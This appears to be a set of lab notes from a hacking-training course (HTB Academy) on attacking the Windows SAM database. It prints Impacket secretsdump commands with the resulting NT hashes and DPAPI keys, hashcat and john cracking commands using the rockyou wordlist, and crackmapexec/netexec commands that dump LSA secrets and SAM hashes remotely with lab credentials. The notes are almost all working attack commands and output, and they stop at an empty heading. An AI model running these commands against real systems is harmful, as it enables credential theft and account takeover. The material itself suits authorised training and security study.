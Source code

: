 ## Dumping Hashes with Impacket's secretsdump.py

```c
secretsdump.py -sam sam.save -security security.save -system system.save LOCAL

Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Target system bootKey: 0x4d8c7cff8a543fbf245a363d2ffce518
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:3dd5a5ef0ed25b8d6add8b2805cce06b:::
defaultuser0:1000:aad3b435b51404eeaad3b435b51404ee:683b72db605d064397cf503802b51857:::
bob:1001:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
sam:1002:aad3b435b51404eeaad3b435b51404ee:6f8c3f4d3869a10f3b4f0522f537fd33:::
rocky:1003:aad3b435b51404eeaad3b435b51404ee:184ecdda8cf1dd238d438c4aea4d560d:::
ITlocal:1004:aad3b435b51404eeaad3b435b51404ee:f7eb9c06fafaa23c4bcf22ba6781c1e2:::
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] DPAPI_SYSTEM 
dpapi_machinekey:0xb1e1744d2dc4403f9fb0420d84c3299ba28f0643
dpapi_userkey:0x7995f82c5de363cc012ca6094d381671506fd362
```

## Cracking Hashes with Hashcat

```c
$ hashestocrack.txt

64f12cddaa88057e06a81b54e73b949b
31d6cfe0d16ae931b73c59d7e0c089c0
6f8c3f4d3869a10f3b4f0522f537fd33
```

```c
hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt
```

```c
❯ john --wordlist=/usr/share/wordlists/rockyou.txt hash-sam --format=NT
```
## Remote Dumping & LSA Secrets Considerations

### Dumping LSA Secrets Remotely

```c
crackmapexec smb 10.129.42.198 --local-auth -u bob -p 'password' --lsa
```

```c
❯ netexec smb 10.129.17.0 --local-auth -u bob -p 'HTB_@cademy_stdnt!' --sam
```
### Dumping SAM Remotely
